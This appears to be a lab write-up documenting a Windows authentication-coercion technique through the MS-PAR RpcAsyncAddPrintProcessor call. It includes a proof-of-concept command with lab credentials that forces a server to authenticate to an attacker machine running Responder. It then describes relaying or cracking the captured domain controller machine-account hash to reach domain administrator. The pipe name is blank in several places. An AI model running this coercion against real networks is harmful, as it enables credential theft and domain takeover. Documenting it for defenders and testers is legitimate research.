 # MS-PAR - Remote call to RpcAsyncAddPrintProcessor (opnum 44)

## Summary

+ **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

+ **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`RpcAsyncAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4)

+ **Function operation number**: `44`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncAddPrintProcessor('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAsyncAddPrintProcessor(
   [in] handle_t hRemoteBinding,
   [in, string, unique] wchar_t* pName,
   [in, string] wchar_t* pEnvironment,
   [in, string] wchar_t* pPathName,
   [in, string] wchar_t* pPrintProcessorName
 );
```

## References

+ Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

+ Documentation of function `RpcAsyncAddPrintProcessor`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/d880c3c2-6f7d-4213-aa28-12e13c64a8b4
